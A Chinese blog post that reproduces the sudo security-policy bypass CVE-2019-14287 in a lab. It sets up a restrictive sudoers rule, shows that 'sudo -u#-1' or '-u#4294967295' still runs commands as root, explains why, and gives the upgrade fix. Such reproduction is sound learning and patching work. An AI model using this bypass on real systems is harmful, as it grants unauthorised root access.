



# 【漏洞复现】之 sudo 提权漏洞（CVE-2019-14287）复现 - Woori - 博客园

> 原文：[`www.cnblogs.com/yankaohaitaiwei/p/11688623.html`](https://www.cnblogs.com/yankaohaitaiwei/p/11688623.html)

（本文仅为平时学习记录，若有错误请大佬指出，如果本文能帮到你那我也是很开心啦）

**该复现参考网络中的文章，该漏洞复现仅仅是为了学习交流，严禁非法使用！！！**

**一、简介** 

> **sudo：**Linux 系统命令，让普通账号以 root 身份去执行某些命令，如，安装软件、查看某些配置文件、关机、重启等操作，如果普通账号需要使用 sudo 需要修改配置文件/etc/sudoers，将 sudo 使用权限赋予该账号

*   **sudo 提权漏洞是一个安全策略绕过问题，去执行某些敏感的命令，CVE 编号是 CVE-2019-14287，影响的版本是：<1.8.28**

**二、漏洞复现过程**

**靶机：Ubuntu 18 x64 系统**

1.查看 sudo 版本，并创建 test 用户

```
1 sudo -V  查看 sudo 版本 2 useradd test  添加 test 用户 3 passwd test  为 test 用户设置密码
```


2.修改 sudo 配置文件：在 root ALL=(ALL:ALL) ALL 下面添加一行配置 test    ALL=(ALL,!root) ALL

```
sudo gedit /etc/sudoers  使用文本编辑器打开 sudo 配置文件
```





```
1 test    ALL=(ALL,!root) ALL 2 test  表示 test 用户 3 第一个 ALL 表示该用户可以在任意地方使用 sudo 4     第二个(ALL,!root)  表示命令可以被除了 root 以外的任意用户执行 5     最后一个 ALL  表示被允许执行
```

*   **整体表示：**test 用户可以使用 sudo，以除了 root 以外的任意用户去执行命令

3.切换到 test 用户，su test，然后进行测试

```
sudo id  查看 root 用户的 ID
```


*   由上图可以看到，使用命令报错
*   解决方法：sudo -u#数字 命令，其中数字是范围：-1~4294967295，命令是系统命令
*   如果要以 root 身份去执行命令，数字使用-1 或 4294967295，至此漏洞复现成功！！
    *   命令中的数字是 id 号，可以在/etc/group 中查看



*   **解释：**使用 sudo -u#id 指定用户 id 去执行命令，由于可以指定 id，所以可以使用-u#-1 或者-u#4294967295 绕过限制，从而以 root 身份去执行任意代码。这是因为 sudo 命令本身就已经以用户 ID 为 0 运行，因此当 sudo 试图将用户 ID 修改成-1 时，不会发生任何变化。这就导致 sudo 日志条目将该命令报告为以用户 ID 为 4294967295 而非 root （或者用户 ID 为 0）运行命令 

**（解释来源于[`www.cnblogs.com/-mo-/p/11683402.html`](https://www.cnblogs.com/-mo-/p/11683402.html)，很详细感谢！！！）**

**三、总结：**该漏洞复现比较鸡肋，需要管理员修改配置文件

**四、****修复方法：**更新 sudo 版本 1.8.28